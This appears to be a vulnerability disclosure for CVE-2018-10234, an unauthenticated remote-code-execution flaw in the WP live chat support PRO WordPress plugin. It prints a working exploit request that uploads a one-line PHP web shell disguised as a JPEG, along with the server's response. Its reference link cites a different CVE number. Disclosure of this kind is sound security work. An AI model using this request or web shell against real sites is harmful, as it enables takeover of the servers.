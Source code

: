 
# CVE-2018-10234

[Suggested description]

     The WP live chat support PRO plugin before 8.0.07 for WordPress is
     vulnerable to unauthenticated Remote Code Execution due to
     client-side validation of allowed file types, as demonstrated by a
     v1/remote_upload request with a .php filename and the image/jpeg
     content type.
    
 
 [Additional Information]
 
     The following request was used to upload malicious files to the server:

     POST /wp-json/wp_live_chat_support/v1/remote_upload HTTP/1.1
     Host: localhost:8000
     Cookie: wp-settings-1=mfold%3Do%26imgsize%3Dfull%26libraryContent%3Dbrowse; wp-settings-time-1=1523622040; wplc_chat_status=5; 

      ... 7109443162421071041760069510
     Content-Disposition: form-data; name="file"; filename="pwn.php"
     Content-Type: image/jpeg

     <?php echo system($_GET["CMD"]); ?

      ... 7109443162421071041760069510
     Content-Disposition: form-data; name="timestamp"

     1528969272366
      ... 7109443162421071041760069510--

     //////////////////////////////////////////////////////////////////////////////////////////////////////////////////
     //////////////////////////////////////////////////////////////////////////////////////////////////////////////////

     The Response shows the file path where the file has been stored:

     HTTP/1.1 200 OK

     {"response":"http:\/\/localhost:8000\/wp-content\/uploads\/wp_live_chat\/\/pwn.php"}
 
 
 [Vulnerability Type]
 
    Insecure file-upload / Remote code execution
 
 
 [Vendor of Product]
 
    CodeCabin_ / WP-livechat
 
 
 [Affected Product Code Base]

    WP live chat support - PRO - All versions < 8.0.07
 
 
 [Affected Component]
 
     WP live chat support PRO - all versions < 8.0.07
 
 
 [Attack Type]
 
    Remote
 
 
 [Impact Code execution]
    
    true
 
 
 [Attack Vectors]

     The affected versions of WP live chat support PRO allow
     unauthenticated users to upload files through the chat window. The
     allowed file types (extensions) are validated by means of client side
     constraints. An attacker that submits a POST request directly to the
     endpoint which is responsible for the file-upload is able to bypass
     the client-side constraints and upload malicious files to the target
     server.
 

 [Has vendor confirmed or acknowledged the vulnerability?]

    true


 [Discoverer]
 
    Riccardo ten Cate


 [Reference]
 
    https://github.com/RiieCco/write-ups/tree/master/CVE-2018-12426
